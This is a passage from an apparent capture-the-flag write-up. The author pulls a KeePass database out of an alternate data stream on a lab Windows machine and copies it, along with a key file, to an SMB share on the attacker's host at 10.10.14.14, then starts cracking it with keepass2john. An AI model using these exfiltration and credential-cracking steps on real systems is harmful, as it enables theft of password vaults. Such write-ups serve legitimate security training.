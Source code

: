 

So the database is an Alternative Data Stream on `root.txt`. I'll also
need the key file, `\Users\Administrator\Pictures\admin.png`.

### Collect Files

Now I need to bring the KeePass database and the key file back to my
machine. But it's surprisingly difficult to copy a file from an ADS with
native Windows tools. One path would be to get a meterpreter shell, and
then just use that to download the file.

`bash` is also on the box, and I can enter a bash shell:



    C:\Users\Administrator\Desktop>\progra~1\bash\bash.exe
    id
    uid=1 gid=1
    pwd
    C:/Users/Administrator/Desktop



Now I can cat the ads:



    cat root.txt:Zone.Identifier > ../appdata/local/temp/a.txt
    md5sum root.txt:Zone.Identifier ../appdata/local/temp/a.txt
    54bd2170e5e671b07046b2b77ce97155 *root.txt:Zone.Identifier
    54bd2170e5e671b07046b2b77ce97155 *../appdata/local/temp/a.txt



Now exit out of bash, and get the files:



    C:\Users\Administrator\Desktop>copy ..\appdata\local\temp\a.txt \\10.10.14.14\share\db.kdbx
    copy ..\appdata\local\temp\a.txt \\10.10.14.14\share\db.kdbx
            1 file(s) copied.
            
    C:\Users\Administrator\Desktop>copy ..\Pictures\admin.png \\10.10.14.14\share\admin.png
    copy ..\Pictures\admin.png \\10.10.14.14\share\admin.png
            1 file(s) copied.



Looks like the files came through:



    root@kali# file share/admin.png share/db.kdbx 
    share/admin.png: PNG image data, 251 x 282, 8-bit/color RGBA, non-interlaced
    share/db.kdbx:   Keepass password database 2.x KDBX



### Break Password

Now I'll use `keepass2john` to get a hash I can brute force. This script
has an option to take a key file:
